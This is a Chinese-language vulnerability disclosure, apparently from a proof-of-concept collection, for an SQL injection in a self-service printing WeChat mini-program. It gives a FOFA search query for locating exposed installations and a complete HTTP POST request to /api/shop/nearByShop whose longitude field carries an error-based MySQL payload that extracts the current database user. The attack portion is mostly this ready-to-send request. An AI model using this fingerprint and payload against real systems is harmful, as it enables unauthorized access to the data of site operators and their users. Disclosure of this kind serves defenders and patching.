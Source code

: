# 自助打印微信小程序系统存在SQL注入漏洞

# 一、漏洞简介
微数字化时代，打印服务的需求与日俱增。为了满足用户的便利需求，全新UI的自助打印系统/云打印小程序。全新UI设计：采用2024年最新的UI设计风格，界面简洁美观，用户体验极佳。云打印功能：支持用户通过小程序上传文件并进行云端打印，方便快捷。自助服务：用户可以自主选择打印参数，如打印份数、纸张类型等，实现真正的自助打印。多平台支持：源码支持微信小程序平台，方便用户在移动端进行操作。自助打印微信小程序系统存在SQL注入漏洞

# 二、影响版本
+ 自助打印微信小程序系统

# 三、资产测绘
+ fofa`"未登录" && "/admin/login/index.html"`
+ 特征

![1731770780231-233931af-9dae-4e66-b394-ceeaf5ac5ef0.png](./img/8MSyZ7Ia8bEhgqoI/1731770780231-233931af-9dae-4e66-b394-ceeaf5ac5ef0-467114.png)

# 四、漏洞复现
```java
POST /api/shop/nearByShop HTTP/1.1
Host: 
Content-Length: 104
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Connection: close

latitude=1&longitude=GTID_SUBSET(CONCAT((MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,190))),9392)
```

![1731770611972-822ff61c-09a2-48b2-8d1d-ed5a9ef930cd.png](./img/8MSyZ7Ia8bEhgqoI/1731770611972-822ff61c-09a2-48b2-8d1d-ed5a9ef930cd-909864.png)



> 更新: 2024-11-27 10:00:05  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/plik2eccznoh6366>